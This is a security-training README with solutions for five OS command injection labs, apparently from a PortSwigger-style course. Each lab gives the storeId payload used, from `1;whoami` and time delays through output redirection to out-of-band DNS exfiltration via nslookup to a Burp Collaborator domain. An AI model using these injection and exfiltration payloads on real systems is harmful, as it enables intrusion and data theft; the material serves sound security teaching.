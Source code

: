 <div align='center'>

# **OS Comand Injection**

</div>

### **Lab 1: OS command injection, simple case**
We can use `;`,`|` or `&` to run multiple commands in one request

**Solution:** In the post request to the /product/stock endpoint, modify the storeId parameter to `1;whoami`. Solution script: [Lab1.py](./Lab1.py).

### **Lab 2: Blind OS command injection with time delays**

**Solution:** In the post request to the /feedback/submit endpoint, modify the storeId parameter to `a;sleep 10 #`. Solution script: [Lab2.py](./Lab2.py)

### **Lab 3: Blind OS command injection with output redirection**

**Solution:** In the post request to the /feedback/submit endpoint, modify the storeId parameter to `a;whoami > /var/www/images/luc.txt #`. Then go to endpoint /image?filename=luc.txt to get the data. Solution script: [Lab3.py](./Lab3.py)

### **Lab 4: Blind OS command injection with out-of-band interaction**

**Solution:** In the post request to the /feedback/submit endpoint, modify the storeId parameter to `a;nslookup Your Burp Collaborator Client #`. Solution script: [Lab4.py](./Lab4.py)

### **Lab 5: Blind OS command injection with out-of-band data exfiltration**

You can get the output of the command by injecting the command to the attacker's and use `nslookup` command to cause a DNS lookup for new domain which contains the result of the command. For example: `nslookup` `` `whoami` ``.`domain` 

**Solution:** In the post request to the /feedback/submit endpoint, modify the storeId parameter to `a;nslookup` `` `whoami` ``.`(Your Burp Collaborator Client) #`. Then go to the Collaborator tab and get the answer.

![Answer](./img/Lab5-1.png)

Solution script: [Lab5.py](./Lab5.py)
